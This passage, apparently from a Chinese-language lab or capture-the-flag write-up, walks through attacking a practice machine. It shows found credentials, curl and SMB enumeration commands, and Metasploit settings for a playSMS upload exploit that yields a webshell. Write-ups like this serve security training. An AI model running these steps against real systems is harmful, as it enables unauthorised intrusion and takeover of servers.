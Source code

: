 #### 获得口令：admin/imnothuman

尝试登陆

```
- http://10.10.10.111:9999/admin/
- http://forlic.htb:1880/
- ssh admin@10.10.10.111
失败
```
---

#### 1880目录发现

```
curl http://forlic.htb:1880/red -o red
curl http://forlic.htb:1880/vendor -o vendor

```
#### 139、445
```
smbclient -L //10.10.10.111
```
picture2, 查看共享的硬盘，服务版本为：Samba 4.3.11-Ubuntu

searchsploit samba 4.X，查看是否有rce的exp，没有。

smbmap -H 10.10.10.111

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-23-05/3.PNG)

对目标硬盘进行访问，发现没有查看权限

## 获得webshell

https://www.rapid7.com/db/modules/exploit/multi/http/playsms_uploadcsv_exec

```
metasploit
search playsms
use multi/http/playsms_uploadcsv_exec
set RHOSTS 10.10.10.111 
set RPORT 9999
set TARGETURI /playsms
set LHOST tun0
```
![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-23-05/14.PNG)

